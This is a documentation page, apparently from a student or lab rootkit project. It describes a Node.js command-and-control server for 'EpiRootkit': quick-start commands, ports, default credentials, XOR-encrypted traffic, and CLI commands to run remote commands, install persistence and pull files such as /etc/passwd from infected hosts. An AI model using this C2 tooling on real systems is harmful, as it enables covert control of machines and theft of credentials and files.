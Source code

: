 ```yaml
---
title: "Overview"
description: "C2 server architecture and capabilities"
icon: "dashboard"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 301
---
```


# C2 Server Overview

Professional Command & Control server for managing EpiRootkit connections.

## Quick Start

```bash
cd attacking_program
pnpm install
pnpm start
```

**Ports:**
- C2 Server: `4444`
- Web Interface: `3000`

## Architecture

- **CLI Interface**: Interactive command system
- **C2 Server**: TCP server for rootkit connections
- **Web Interface**: REST API with Socket.IO
- **Client Manager**: Connection lifecycle and authentication
- **Event System**: Real-time logging

### Technology Stack
- **Runtime**: Node.js 18+ with pnpm
- **CLI**: Vorpal.js for commands
- **Web**: Express.js + Socket.IO
- **Encryption**: XOR cipher with 32-byte hardcoded key (simple and reliable)

## Core Features

### Client Management
```bash
ls                          # List connected clients
auth Client-1 password      # Authenticate with client
status Client-1             # Get rootkit status
keepalive Client-1          # Check connection health
```

### Remote Operations
```bash
exec Client-1 whoami                       # Execute commands
upload Client-1 ./file.txt /tmp/file.txt   # Upload files
download Client-1 /etc/passwd ./passwd     # Download files
```

### Configuration
```bash
config Client-1             # Interactive configuration
persist Client-1 install    # Manage persistence
```

## Authentication

### SHA-512 Password System
1. C2 sends plaintext password
2. Rootkit hashes and compares
3. Session established (1-hour timeout)
4. Rate limiting: 5 attempts/60 seconds

**Default Credentials:**
- Password: `password`
- Hash: `b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86`

## Configuration

### Environment Settings
```bash
C2_PORT=4444               # C2 server port
WEB_PORT=3000              # Web interface port
ENCRYPTION_KEY=secret32hex  # 32-character hex key
ENABLE_ENCRYPTION=true     # XOR encryption toggle
PASSWORD_HASH=hash         # SHA-512 password hash
```

## Security Features

- **Authentication**: SHA-512 with brute force protection
- **XOR Encryption**: Simple 32-byte key cipher for reliable traffic obfuscation  
- **Session Management**: Automatic timeout and cleanup
- **Access Control**: Commands require authentication
- **Health Monitoring**: Automatic stale client detection

## Network Protocol

### Command Format
```json
{
  "type": "command",
  "command": "exec",
  "data": "whoami"
}
```

### Response Format
```json
{
  "type": "response", 
  "success": true,
  "data": "root"
}
```